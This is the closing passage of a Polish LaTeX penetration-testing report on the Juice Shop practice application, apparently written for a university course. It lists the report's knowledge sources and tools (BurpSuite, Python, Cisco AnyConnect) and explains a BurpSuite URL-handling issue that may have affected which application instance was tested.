Ponadto, nawet po awarii dane nie powinny być usuwane. Można to zapewnić przez użycie baz zapisujących dane w trwałych lokalizacjach w systemie plików. 
 



\section{Informacje dodatkowe o raporcie}
Ta sekcja zawiera dodatkowe informacje związane z wykonaniem raportu.

\subsubsection{Źródła wiedzy}
Badania odbyły się w oparciu o wiedzę pochodzącą przede wszystkim z części laboratoryjnej kursu. Ze względu na otwartość kodu oraz doświadczenie z wprowadzaniem poprawek testy penetracyjne należy określić jako szaroskrzynkowe. Wiedza niewchodząca w skład materiału laboratoryjnego była zdobywana na podstawie score-board JuiceShop (źródło inspiracji i dodatkowych rodzajów ataków) oraz dokumentacji internetowej przede wszystkim od firmy PortSwigger (dokładne opisy i objaśnienia nieznanych ataków). W przypadku użycia poradników, czy forów internetowych fakt ten został wspomniany w opisie wybranej podatności.

\subsubsection{Użyte narzędzia}
Do pracy wykorzystane zostałe programy:
\begin{itemize}
  \item BurpSuite
  
  W wersji community v2025.3.4 z przeglądarką Chromium wersji 136.0.7103.49 
  \item Python
  
  W wersji 3.12.10. Skrypty służyły do automatyzacji pracy i lepszej dokumentacji technicznej ataków. Skrypty nie zostały załączone bezpośrednio do raportu, ale są dostępne w repozytorium projektu
  \item Cisco AnyConnect
  
  Użyte do ustalenia połączenia do sieci uczelnianej
\end{itemize}

\subsubsection{Potencjalne użycie innej instancji aplikacji}
W programie BurpSuite został zidentyfikowany błąd, który sprawia że połączenie do adresów posiadających podkreślnik w URL staje się problematyczne/niemożliwe. Znalezione w internecie rozwiązanie polegało na całkowitym zignorowaniu tego problematycznego znaku. Istotnie pomogło to poprawić działanie programu, jednak jak się okazało taka zmiana mogła sprawić, że wykorzystywana była domyślna instancja typu "fallback", a nie przypisana osobiście wersja aplikacji. Z drugiej strony, skrypty Python wykorzystywały dokładny URL (z podkreślnikiem) i nie został zaobseerwowane żadne różnice w działaniu obu aplikacji.

Główna część prac została wykonana przed dniem 21.05.2025, czyli dniem usunięcia podkreślnika z prywatnej domeny.
\end{document}